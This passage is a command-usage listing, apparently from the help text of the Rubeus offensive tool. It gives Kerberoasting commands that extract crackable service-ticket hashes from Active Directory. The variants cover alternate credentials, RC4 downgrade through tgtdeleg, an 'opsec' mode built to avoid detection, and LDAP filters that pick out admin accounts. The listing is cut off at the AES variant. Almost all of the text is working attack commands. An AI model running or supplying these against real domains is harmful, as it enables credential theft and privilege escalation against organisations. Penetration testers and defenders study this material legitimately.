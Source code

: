 ```powershell

    Perform Kerberoasting, outputting hashes to a file:

        Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]



    Perform Kerberoasting, outputting hashes in the file output format, but to the console:

        Rubeus.exe kerberoast /simple [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]



    Perform Kerberoasting with alternate credentials:

        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]



    Perform Kerberoasting with an existing TGT:

        Rubeus.exe kerberoast /spn:"blah/blah" </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]



    Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:

        Rubeus.exe kerberoast /usetgtdeleg [/nowrap]



    Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:

        Rubeus.exe kerberoast /rc4opsec [/nowrap]



    List statistics about found Kerberoastable accounts without actually sending ticket requests:

        Rubeus.exe kerberoast /stats [/nowrap]



    Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):

        Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/nowrap]



    Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:

        Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/nowrap]

        

    Perform AES Kerberoasting:
```